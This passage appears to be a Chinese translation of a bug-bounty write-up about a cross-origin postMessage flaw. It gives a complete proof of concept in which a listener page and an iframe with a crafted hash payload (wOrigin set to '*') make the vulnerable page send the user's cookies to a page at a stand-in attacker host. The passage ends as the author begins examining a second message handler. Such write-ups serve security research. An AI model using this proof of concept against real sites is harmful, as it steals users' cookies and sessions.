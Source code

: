 ```
<script>
  function rcv(event)
   {   
       console.log(event);
   }
  window.addEventListener('message',rcv,false);
</script>
```

创建一个 iframe，将易受攻击的页面作为子页面加载。

**完整概念验证**

```
<script>
  function rcv(event)
   {
    console.log(event); 
   }
  window.addEventListener('message',rcv,false);
</script>
<iframe src='http://vulnerable-onga.com/sync.html#{"ns":"anyblah","wOrigin":"*"}' />
```

当您打开`http://attacker.com/poc.html`时，监听器将运行并等待传入的消息，iframe 将被加载，易受攻击的页面将进入 iframe，并将包含 cookie 的消息发送到攻击者的父站点，最后它将被捕获并记录，在我们的示例中，它包含泄露给攻击者的用户 cookie。

![](img/f7e42d75be957d5690b23d4c261c527b.png)

我们结束了吗？？？

当然不是，不要像我以前那样去庆祝，你可能会忘记很多，让我们玩得更开心，因为文件只包含 57 行，我决定仔细阅读它们。

我发现了另一条惊人的线。

```
window.addEventListener('message', h_message);
```

快速开始查看`h_message`功能的内容:

